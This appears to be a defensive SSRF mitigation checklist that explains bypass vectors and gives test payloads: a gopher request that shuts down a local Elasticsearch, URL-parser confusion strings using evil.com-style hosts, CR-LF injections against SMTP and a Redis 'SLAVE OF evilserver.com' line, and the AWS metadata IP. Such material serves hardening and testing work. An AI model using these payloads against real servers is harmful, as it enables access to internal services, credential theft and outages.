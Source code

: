 # Server Side Request Forgery (SSRF) Checklist

<img src="images/ssrf.png" align="left"/>

Server-Side Request Forgery (SSRF) allows an attacker to have a server perform network calls in the context of that server. Common exploits will communicate to backend services via HTTP, but other protocols are also possible via protocol smuggling.

Impact of SSRF can vary, but can be especially severe in cloud environments due to cloud provider's metadata services revealing sensitive data. Avoid processing user supplied URLs if possible. Otherwise this checklist can help cover some common vectors.

## Mitigation Checklist
- [ ] Ensure that IP deny lists are comprehensive
- [ ] Enforce only defined protocols are processed (E.g. only HTTP/HTTPS)
- [ ] Ensure that DNS name resolutions don’t bypass any checks
- [ ] Ensure that HTTP redirects don’t bypass any checks
- [ ] Ensure that the IPv6 addresses don’t bypass any checks
- [ ] Ensure that uncommon representations of IPs don’t bypass any checks
- [ ] Ensure user controlled data is the expected type
- [ ] Ensure abusing URL parsing doesn’t bypass checks
- [ ] Ensure CR-LF & Unicode characters get encoded correctly
- [ ] Minimize user controlled data that is processed

### Ensure that IP deny lists are comprehensive

There's probably not a legitimate use case for a user to have a server request something in the private IP space, the loopback address, or the AWS metadata endpoint. Ensure that you have all the following IPs in your disallow list.

|   |   |
|---|---|
| 127.0.0.1/8 | Loopback |
| 10.0.0.0/8 | Private IP Address Block |
| 172.16.0.0/12 | Private IP Address Block |
| 192.168.0.0/16 | Private IP Address Block |
| 169.254.169.254/32 | AWS Metadata Endpoint |

### Enforce only defined protocols are processed (E.g. only HTTP/HTTPS)

Configure the service to only use explicitly defined protocols. E.g. only allow HTTP/HTTPS. Not defining the protocol can allow protocol smuggling.

This request:
```
gopher://127.0.0.1:9200/_POST%20/shutdown%20HTTP/1.1%0AUser-Agent%3A%20curl/
7.35.0%0AHost%3A%20127.0.0.1%0AAccept%3A%20*/*%0AContent-Length%3A23%0AContent-Type%3A+application/
x-www-form-urlencoded%0AConnection%3A+close%0A%0AIm%20the%20request%20body%20now
```
Creates the following call to an elasticsearch server:
```
POST /shutdown HTTP/1.1
User-Agent: curl/7.35.0
Host: 127.0.0.1
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: close

Im the request body now
```

### Ensure that DNS name resolutions don’t bypass any checks

DNS rebinding attacks will resolve subdomains to internal IP addresses. Sites like xip.io provide this functionality. You can use this for testing. Ensure these resolutions will also be blocked by IP disallow lists.

|   |   |
|---|---|
| http://169.254.169.254.xip.io/ | http://169.254.169.254 |

### Ensure that HTTP redirects don’t bypass any checks

An attacker may host a server where they can set the response headers of a request to point to internal IPs. URL shortening services like bitly also can provide this functionality. You can use this for testing. Ensure redirects will also be blocked by IP disallow lists.

|   |   |
|---|---|
| https://bit.ly/2Gr1XnX | http://169.254.169.254 |

Also ensure that redirects will only process the predefined protocols.

### Ensure that the IPv6 addresses don’t bypass any checks

IPv4 can be represented as IPv6 addresses. Make sure these don’t bypass IP disallow lists.
| IPv4 | IPv6|
|---|---|
| 127.0.0.1 | 0:0:0:0:0:ffff:7f00:1 |
| 69.254.169.254 | 0:0:0:0:0:ffff:a9fe:a9fe |


### Ensure that uncommon representation of IPs don’t bypass any checks

Many libraries and binaries will process IPs represented as 32 bit ints, hex, or octal. Make sure that these don’t bypass the IP disallow lists.

| IP | 32bit Int | Hex | Octal |
|---|---|---|---|
| 127.0.0.1 | 2130706433 <br /> 0 | 0x7f000001 <br /> 0x0 | |
| 169.254.169.254 | 2852039166 | 0xa9fea9fe | |

You can test this out locally with ping or other binaries. (Note: `ping 0` resolves on linux, but not mac)

```
$ ping 2130706433
PING 2130706433 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.018 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.046 ms
```

### Ensure user controlled data is the expected type

```
axios.request(req.data.url).then(function(res) {

})
```
Some JS http client functions accept either a string or config object to create a request. An attacker could set the url parameter to be a config object. Similar issues can exist in other languages when assuming user input type. Ensure all user data is the expected data type.

Note: The impact of this vector can be more severe if the docker daemon is accessible from the app. Axios and some other JS request libraries support communicating over Unix sockets (See here). This results in RCE.

### Ensure abusing URL parsers doesn’t bypass checks

Ensure that the URL that was parsed and validated is the same that will be fetched by http client.

```
http://myvalidserver.com:8080@attackerserver.com
```

Most URL parsing libs will evaluate the server as attackerserver.com The following is vulnerable to allow an attacker to specify the host of the request.

```
axios.get(`http://myvalidserver.com:8080${req.data.path}`)
```

Include a trailing / before the user controlled path to avoid this vulnerability.

The following patterns may also be used for testing:
```
http://127.0.0.1:11211:80/
http://foo@evil.com:80@google.com/
http://foo@127.0.0.1 @google.com/
http://google.com#@evil.com/
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
http://127.0.0.1\tfoo.google.com
```

Ref: https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

### Ensure CR-LF & Unicode characters get encoded correctly

Make sure CR-LF characters stay encoded and don’t allow CR-LF injection
```
http://127.0.0.1:25/%0D%0AHELO orange.tw%0D%0AMAIL FROM
http://127.0.0.1:25/\r\nSLAVE OF evilserver.com\r\n
```

```
http://myserver.com//passwd
http://myserver.com/xFF/x2E/xFF/x2E/passwd
```

### Minimize user controlled data that is processed

Nothing to test here. Just a note to evaluate if any user controlled parameters can be removed to reduce risk.

<br><br>
:warning: This list attempts to be comprehensive. Feel free to open an issue or PR for missing or incomplete vectors.
